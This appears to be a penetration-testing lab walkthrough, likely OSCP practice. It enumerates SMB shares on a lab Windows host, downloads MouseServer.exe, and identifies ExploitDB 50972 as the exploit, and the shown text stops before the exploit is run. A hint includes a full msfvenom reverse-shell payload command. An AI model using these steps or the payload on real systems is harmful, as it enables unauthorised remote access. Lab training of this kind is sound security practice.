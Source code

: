 
*Lab Exercise*
1. Walkthrough
```
Hints:
1) Scan for SMB services, interact with shares and pay attention to applications you find in the Downloads Folder.
2) Google the name of the application name based on the installer file discovered earlier. When searching for exploits, keep in mind that the version of the application exploit author used can be older but it doesn't mean new versions are not vulnerable to that exploit.
3) Use msfvenom to generate a payload such as the following:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=<PORT> -f exe > reverse.exe

4) If you are unable to get a reverse shell after setting everything up properly, you may want to modify your mtu by executing the following: sudo ifconfig tun0 mtu 1250. There may be a bit of delay depending on the VPN connection
5) Use python2 instead.
6) If you use ExploitDB#50972, python3 should be good.


1. Check out smbshare
┌──(kali㉿kali)-[~/OSCP/12]
└─$ smbclient -L \\\\192.168.233.10\\    
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        offsec          Disk      
        Users           Disk   

2. Find out files in Download folder through Users share name. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ smbclient \\\\192.168.233.10\\Users
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> cd offsec\Downloads\
smb: \offsec\Downloads\> ls
  .                                  DR        0  Thu Jun 23 03:03:57 2022
  ..                                 DR        0  Thu Jun 23 03:03:57 2022
  7z2200-x64.exe                      A  1569243  Tue Jun 21 17:56:35 2022
  ccsetup601.exe                      A 49618184  Tue Jun 21 17:54:25 2022
  ChromeSetup.exe                     A  1414600  Tue Jun 21 17:53:48 2022
  desktop.ini                       AHS      282  Mon Jun 20 21:07:23 2022
  Firefox Installer.exe               A   348616  Tue Jun 21 17:52:08 2022
  MouseServer.exe                     A  3150224  Tue Jun 21 17:55:48 2022
  ZoomBackground.png                  A  4269990  Thu Jun 23 03:03:57 202

3. Download file from smbshare to local machine. 
┌──(kali㉿kali)-[~/OSCP/12]
└─$ smbget smb://192.168.233.10//Users/offsec/Downloads/MouseServer.exe
Password for [kali] connecting to //192.168.233.10/Users: 
Using workgroup WORKGROUP, user kali
smb://192.168.233.10//Users/offsec/Downloads/MouseServer.exe                 
Downloaded 3.00MB in 29 seconds

4. Check out file metadata. Found version 1.8.2.5
┌──(kali㉿kali)-[~/OSCP/12]
└─$ exiftool -a u MouseServer.exe 

5. Figured out 50972.py being potential exploit. Download from searchsploit. 

```